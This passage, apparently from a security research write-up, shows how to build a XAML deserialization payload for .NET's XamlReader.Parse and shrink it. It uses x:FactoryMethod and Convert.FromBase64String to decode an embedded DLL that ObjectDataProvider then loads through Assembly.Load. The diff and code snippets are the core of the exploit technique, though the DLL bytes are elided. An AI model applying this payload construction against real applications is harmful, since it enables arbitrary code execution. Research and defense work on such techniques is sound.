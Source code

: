 ```csharp
</ObjectDataProvider>
</ResourceDictionary>";
            return xaml;
        }
    }
}
```



## Reducing the payload size

Well, our payload is good enough, but its size is about 75Kb, which may be too large for some cases. What can we do to reduce its size? The obvious improvement is to use Base64 to the encode DLL, like this:

```csharp
var assemblyBase64 = "TVqQAAMAAAA...AAAA";
var assemblyBytes = Convert.FromBase64String(assemblyBase64);
// ...
```

But if we try to implement this in XAML with `ObjectDataProvider`, we will run into the previously described limitation, because the result of calling `Convert.FromBase64String` with the `ObjectDataProvider` will be of type `ObjectDataProvider`, not `byte[]`. After digging deep into the documentation, we've found another useful XAML markup extention —[x:FactoryMethod](https://learn.microsoft.com/en-us/dotnet/desktop/xaml-services/xfactorymethod-directive). It was added in XAML 2009 specification, which is not supported by WPF framework, but it is supported in `XamlReader.Parse` method. This extension allows to create an object using the provided static `FactoryMethod` and the result will be of the specified type, not `ObjectDataProvider`. So, we can just do something like this:

```diff
diff --git a/5.xaml b/6.xaml
index 2e5b432..acbfd97 100644
--- a/5.xaml
+++ b/6.xaml
@@ -3,12 +3,12 @@
                     xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib"
                     xmlns:s="clr-namespace:System;assembly=mscorlib"
 >
-    <!-- byte[] data = new byte[] { /*... Payload.dll bytes ...*/ }; -->
-    <x:Array x:Key="data" Type="{x:Type x:Byte}">
-        <x:Byte>77</x:Byte>
-        <!-- ... 3582 lines ... -->
-        <x:Byte>0</x:Byte>
-    </x:Array>
+    <!-- Array data = Convert.FromBase64String("TVqQAAMAAAA...AAAA"); -->
+    <s:Array x:Key="data" x:FactoryMethod="s:Convert.FromBase64String">
+        <x:Arguments>
+            <s:String>TVqQAAMAAAA...AAAA</s:String>
+        </x:Arguments>
+    </s:Array>
 
     <!-- Assembly assembly = Assembly.Load(data); -->
     <ObjectDataProvider x:Key="assembly" ObjectType="{x:Type r:Assembly}" MethodName="Load">
```

